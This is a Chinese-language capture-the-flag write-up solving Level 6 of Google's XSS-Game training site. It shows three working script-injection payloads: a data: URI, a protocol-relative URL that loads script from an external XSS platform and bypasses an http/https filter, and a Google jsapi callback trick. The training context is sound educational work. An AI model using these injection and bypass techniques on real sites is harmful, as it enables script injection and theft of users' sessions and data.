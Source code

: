 ## [[XSS-Game](https://xss-game.appspot.com/)] [[Level-6](https://xss-game.appspot.com/level6)] [[解题报告](http://exp-blog.com/2019/02/15/pid-3322/)]

------

## 1. 解题方法一（题目 "BUG"）

明显注入点在 URL。

查看页面源码发现， 无论在 URL 输入什么都会实时回显到 script 标签的 src 属性里面：

![](http://exp-blog.com/wp-content/uploads/2019/02/8d58b8b76c19a282ffbb94d2a514d3b3.png)

即注入点是这样的： `<script src="注入点" ></script>`

要在 script 标签的 src 属性执行 js ，可以构造这样的 payload： `data:text/javascript,alert('exp')`

直接 pass。。最后一关简单到离谱。。

![](http://exp-blog.com/wp-content/uploads/2019/02/d8f5c538eabf93e1230782e46e36bcb5.png)


## 2. 解题方法二（XSS 平台）

其实这么简单就突破了，可能是这题的 BUG。

因为我一开始没看题目的 Mission Objective 变成了这样：

Find a way to make the application request an external file which will cause it to execute an alert().

即作者期望我们利用 script 的 src 去调用其他站点的 恶意 js 脚本，再由该脚本回调当前网页 的 alert，估计作者也没想到可以被钻了空子。

------------

若按作者的思路解题，我们可以用 xss 平台做，例如： [http://xss.tf](http://xss.tf)

注册 xss 平台后，任意创建一个项目，然后配置项目源码，勾选最后的“自定义代码”，输入一个 JS 函数 `alert()` ，最后查看项目代码，会给出访问这个项目的 URL，如这里为：[http://xss.tf/IUa](http://xss.tf/IUa)

![](http://exp-blog.com/wp-content/uploads/2019/02/7b691f9f87a49e3c8f1bd816ca67523d.png)

打开这个 xss 项目的 URL ： [http://xss.tf/IUa](http://xss.tf/IUa)

可以看见页面只打印了一个 JS 函数 `alert()` ，到这里我们构造这个 xss 平台的目的就完成了。

![](http://exp-blog.com/wp-content/uploads/2019/02/267ce122d333df095c3796b78bfedad3.png)

------------

### 2.1. 回调函数

回到挑战页面，前面已经知道注入点是这样的： `<script src="注入点" ></script>`

要从这里通过 xxs 平台回调 `alert()` 函数，只需要在 URL 末尾加上 `callback=alert`，即：

`<script src="http://xss.tf/gAk?callback=alert" ></script>`

回调原理大概是这样的：

![](http://exp-blog.com/wp-content/uploads/2019/02/6b39195cad1cedac61e5b6aba37cba65.png)


------------

### 2.2. 验证绕过

但是直接注入 `http://xss.tf/gAk?callback=alert` 是无法成功的，

原因是题目对注入点做了正则校验，不允许输入以 http 或 https 开头的内容：

![](http://exp-blog.com/wp-content/uploads/2019/02/345c4bfc4dcd2260fee7136deb35b36c.png)

但是绕过的方式也很简单，直接删掉 `http:` 或 `https:` 即可，最终 payload 变成这样：

`//xss.tf/gAk?callback=alert`

![](http://exp-blog.com/wp-content/uploads/2019/02/91aa862a836bae66c2ca6e9ae5a4680b.png)


在 web 网页中，以双斜杠 `//` 开头的 URL 写法有其特殊用途：

- 它会判断当前的页面协议是 http 还是 https 来决定请求 url 的协议
- 主要用于处理 \[网站使用的协议\] 和 \[网页中请求的外网资源\] 不一致的问题，达到无缝切换
- 这种写法在 CSS 很常见，如：`.omgomg { background: url(//exp-blog.com/imgs/exp.gif); }`


------------

## 3. 解题方法三（谷歌 jsapi）

查看 hits ，题目给出的一个提示是：`google.com/jsapi?callback=foo`

打开页面发现，google 会实时根据 `callback=foo` 的值构造一个 `foo` 函数

![](http://exp-blog.com/wp-content/uploads/2019/02/f46760f30906979479d92468dc341f0c.png)

因此可以构造这样的 payload ：`//www.google.com/jsapi?callback=alert`

![](http://exp-blog.com/wp-content/uploads/2019/02/236088dc165a089926adc5b751091208.png)

这样就可以省去自己搭建 xss 平台的麻烦了，一样可以 pass ：

![](http://exp-blog.com/wp-content/uploads/2019/02/044a7a194f3f13839a9eaea14c17f50c.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

